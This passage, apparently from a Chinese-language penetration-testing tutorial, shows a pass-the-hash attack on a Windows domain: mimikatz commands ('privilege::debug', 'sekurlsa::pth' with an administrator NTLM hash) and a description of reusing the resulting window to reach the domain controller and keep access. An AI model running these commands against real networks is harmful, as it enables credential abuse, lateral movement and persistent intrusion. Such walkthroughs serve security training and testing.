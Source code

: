 ![image-20230815132050557](assets/image-20230815132050557.png)

### 4.2.5. PTH传递攻击

使用mimikatz进行哈希传递，在域成员机器的管理员模式下打开mimikatz，这里可以直接使用CS运行也可以。

```
privilege::debug
sekurlsa::pth /domain:DC /user:administrator /ntlm:518b98ad4178a53695dc997aa02d455c
```

![image-20230815133452200](assets/image-20230815133452200.png)

### 4.2.6. 查看效果

这里其实就是在域内主机上弹出一个弹窗，借用这个弹窗来执行命令，来访问域控，而当窗口被关闭后，可以下次借用pth攻击，再次调用起来，确保权限的维持。但是缺点也很明显，我需要远程登陆到域控服务器上，否则弹出的弹窗我并不能利用。
